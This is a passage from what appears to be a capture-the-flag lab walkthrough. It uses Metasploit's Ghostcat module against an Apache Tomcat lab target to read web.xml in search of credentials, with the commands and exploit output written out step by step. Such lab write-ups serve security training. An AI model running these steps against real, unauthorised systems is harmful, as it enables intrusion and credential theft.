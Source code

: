 ```bash
   1  exploit/windows/http/tomcat_cgi_cmdlineargs  2019-04-10       excellent  Yes    Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability

Interact with a module by name or index. For example info 1, use 1 or use exploit/windows/http/tomcat_cgi_cmdlineargs   
```

# Vulnerability Exploitation
> Vulnerability Exploitation Using Metasploit
9. `use auxiliary/admin/http/tomcat_ghostcat` to load the Ghostcat vulnerability module
10. `show options` to show the required options that we need to fill in order to successfully use this module, which shows us that the RHOSTS (Remote Hosts) and RPORT (Remote Port) are required for this module to work
11. `set RHOSTS {TARGET-IP}` to set a value for the RHOSTS option as this room’s target machine’s IP address
12. `set RPORT 8080` to set the value of our RPORT option to the port number that the target’s using to run their web server
13. `exploit` to run this module and exploit the Ghostcat vulnerability to access the web.xml file to potentially find any login credentials that we can use to login into the target's system
```bash
msf6 > use auxiliary/admin/http/tomcat_ghostcat 
msf6 auxiliary(admin/http/tomcat_ghostcat) > show options

Module options (auxiliary/admin/http/tomcat_ghostcat):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   AJP_PORT  8009              no        The Apache JServ Protocol (AJP) port
   FILENAME  /WEB-INF/web.xml  yes       File name
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wi
                                         ki/Using-Metasploit
   RPORT     8080              yes       The Apache Tomcat webserver port (TCP)
   SSL       false             yes       SSL


View the full module info with the info, or info -d command.
```
```bash
msf6 auxiliary(admin/http/tomcat_ghostcat) > set RHOSTS 10.10.6.82
RHOSTS => 10.10.6.82
msf6 auxiliary(admin/http/tomcat_ghostcat) > set RPORT 8080
RPORT => 8080
```
```bash
msf6 auxiliary(admin/http/tomcat_ghostcat) > exploit
[*] Running module against 10.10.6.82
Status Code: 200
Accept-Ranges: bytes
ETag: W/"1261-1583902632000"
Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
Content-Type: application/xml
Content-Length: 1261
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0
```